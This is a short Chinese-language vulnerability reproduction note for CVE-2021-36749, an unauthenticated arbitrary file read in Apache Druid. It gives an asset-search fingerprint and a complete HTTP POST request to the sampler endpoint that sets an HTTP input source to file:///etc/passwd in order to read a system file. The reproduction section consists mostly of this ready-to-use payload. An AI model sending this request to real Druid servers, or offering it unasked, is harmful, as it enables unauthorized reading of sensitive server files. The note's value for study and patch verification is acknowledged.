


# Apache Druid LoadData 任意文件读取漏洞 CVE-2021-36749

## 漏洞描述

由于用户指定 HTTP InputSource 没有做出限制，可以通过将文件 URL 传递给 HTTP InputSource 来绕过应用程序级别的限制。攻击者可利用该漏洞在未授权情况下，构造恶意请求执行文件读取，最终造成服务器敏感性信息泄露。

## 漏洞影响

<a-checkbox checked>Apache Druid</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://github.com/">title="Apache Druid"</a-button>
</a-checkbox>

## 漏洞复现

主页面


复现过程





请求包为

```php
POST /druid/indexer/v1/sampler?for=connect
Accept: application/json, text/plain, */*

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["file:///etc/passwd"]},"inputFormat":{"type":"regex","pattern":"(.*)","columns":["raw"]}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{}},"tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```

